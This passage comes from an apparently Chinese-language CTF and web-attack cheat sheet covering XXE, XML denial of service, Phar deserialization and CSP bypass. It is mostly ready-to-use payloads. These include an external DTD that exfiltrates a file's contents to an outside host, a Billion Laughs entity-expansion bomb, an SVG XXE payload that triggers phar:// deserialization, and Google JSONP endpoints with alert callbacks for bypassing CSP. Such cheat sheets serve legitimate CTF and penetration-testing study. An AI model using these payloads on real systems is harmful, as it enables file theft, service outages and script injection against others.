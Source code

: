 xxe.dtd:

```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://kaibro.tw/?a=%file;'>">
```

## DoS

- Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## 串Phar反序列化

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE ernw [
  <!ENTITY xxe SYSTEM "phar:///var/www/html/images/gginin/xxxx.jpeg" > ]>
  <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
</svg>
```

- Example: MidnightSun CTF - Rubenscube

## 其它

- DOCX
- XLSX
- PPTX
- PDF
- https://github.com/BuffaloWill/oxml_xxe

# CSP

- [CSP Evaluator](https://csp-evaluator.withgoogle.com)
- JSONP endpoints
  - https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1
  - https://googleads.g.doubleclick.net/pagead/conversion/1036918760/wcm?callback=alert(1337)
  - https://www.googleadservices.com/pagead/conversion/1070110417/wcm?callback=alert(1337)
  - https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)
  - https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)
